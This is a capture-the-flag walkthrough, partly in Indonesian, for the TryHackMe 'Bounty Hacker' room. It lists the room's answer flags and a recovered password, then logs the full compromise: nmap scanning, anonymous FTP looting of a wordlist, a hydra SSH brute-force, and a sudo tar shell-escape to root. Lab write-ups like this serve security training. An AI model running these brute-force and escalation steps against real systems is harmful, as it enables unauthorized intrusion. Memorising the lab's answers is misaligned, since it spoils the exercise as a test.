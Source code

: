 # Bounty Hacker
- desc: You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
- url : [https://tryhackme.com/r/room/cowboyhacker](https://tryhackme.com/r/room/cowboyhacker)

# docs
- [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

# answer
- Task 1
  - lin
  - SSH
  - RedDr4gonSynd1cat3
  - THM{CR1M3_SyNd1C4T3}
  - THM{80UN7Y_h4cK3r}

# Solve (Visual)
## information gathering
- Saya memulai dengan melakukan pemindaian menggunakan nmap.
  ![alt text](docs/images/image-18.png)
- Hasil pemindaian menunjukkan bahwa port 21 (FTP) terbuka, dan memungkinkan login dengan user anonim.
- Saya kemudian mengunduh file yang tersedia di server FTP menggunakan perintah get.
  ![alt text](docs/images/image-17.png)
- Setelah mengecek isi file, saya menemukan sebuah wordlist yang kemungkinan dapat digunakan untuk mencoba akses SSH.
  ![alt text](docs/images/image-19.png)

## exploit
- Saya melakukan bruteforce terhadap akun lin menggunakan wordlist yang telah ditemukan, dengan hydra.
  ![alt text](docs/images/image-20.png)
- Setelah berhasil mendapatkan kredensial yang valid, saya masuk ke sistem dan berhasil menemukan flag user.
  ![alt text](docs/images/image-21.png)

## post exploit
- Selanjutnya, saya melakukan pencarian SUID dan memeriksa hak akses sudo.
- Dari hasil pemeriksaan, ditemukan bahwa pengguna memiliki izin untuk menjalankan perintah tar dengan sudo, yang dapat digunakan untuk meningkatkan hak akses
  ![alt text](docs/images/image-22.png)

# Solve (Text-Based)
## information gathering
```bash
: '[+] setup'
ip=10.10.10.79
tun=10.21.78.122

: '[+] nmap'
nmap -sCV -T4 --min-rate=1000000 $ip -oN nmap
# Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-31 19:37 WIB
# Nmap scan report for 10.10.10.79 (10.10.10.79)
# Host is up (0.22s latency).
# Not shown: 970 filtered tcp ports (no-response), 27 closed tcp ports (reset)
# PORT   STATE SERVICE VERSION
# 21/tcp open  ftp     vsftpd 3.0.3
# | ftp-syst: 
# |   STAT: 
# | FTP server status:
# |      Connected to ::ffff:10.21.78.122
# |      Logged in as ftp
# |      TYPE: ASCII
# |      No session bandwidth limit
# |      Session timeout in seconds is 300
# |      Control connection is plain text
# |      Data connections will be plain text
# |      At session startup, client count was 2
# |      vsFTPd 3.0.3 - secure, fast, stable
# |_End of status
# | ftp-anon: Anonymous FTP login allowed (FTP code 230)
# |_Can't get directory listing: TIMEOUT
# 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
# | ssh-hostkey: 
# |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
# |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
# |_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
# 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
# |_http-title: Site doesn't have a title (text/html).
# |_http-server-header: Apache/2.4.18 (Ubuntu)
# Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done: 1 IP address (1 host up) scanned in 40.42 seconds

: '[+] ftp check'
ftp $ip
# Name (10.10.10.79:ariafatah): Anonymous
ftp> passive
ftp> ls
# -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
# -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
ftp> get task.txt
ftp> get locks.txt

cat locks.txt 
# rEddrAGON
# ReDdr4g0nSynd!cat3
# Dr@gOn$yn9icat3
# R3DDr46ONSYndIC@Te
# ReddRA60N
# R3dDrag0nSynd1c4te
# dRa6oN5YNDiCATE
# ReDDR4g0n5ynDIc4te
# R3Dr4gOn2044
# RedDr4gonSynd1cat3
# R3dDRaG0Nsynd1c@T3
# Synd1c4teDr@g0n
# reddRAg0N
# REddRaG0N5yNdIc47e
# Dra6oN$yndIC@t3
# 4L1mi6H71StHeB357
# rEDdragOn$ynd1c473
# DrAgoN5ynD1cATE
# ReDdrag0n$ynd1cate
# Dr@gOn$yND1C4Te
# RedDr@gonSyn9ic47e
# REd$yNdIc47e
# dr@goN5YNd1c@73
# rEDdrAGOnSyNDiCat3
# r3ddr@g0N
# ReDSynd1ca7e

cat task.txt 
# 1.) Protect Vicious.
# 2.) Plan for Red Eye pickup on the moon.

# -lin
```

## exploit
```bash
: 'bruteforce ssh: hydra'
hydra -l lin -P locks.txt $ip ssh -t 64
# [22][ssh] host: 10.10.10.79   login: lin   password: RedDr4gonSynd1cat3

ssh lin@$ip
# pass: RedDr4gonSynd1cat3

cat user.txt 
# THM{CR1M3_SyNd1C4T3}
```

## post exploit
```bash
find / -type f -user root -perm -4000 2>/dev/null

sudo -l
# pass: RedDr4gonSynd1cat3
# User lin may run the following commands on bountyhacker:
    # (root) /bin/tar

: suid tar
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
cat /root/root.txt
# THM{80UN7Y_h4cK3r}
```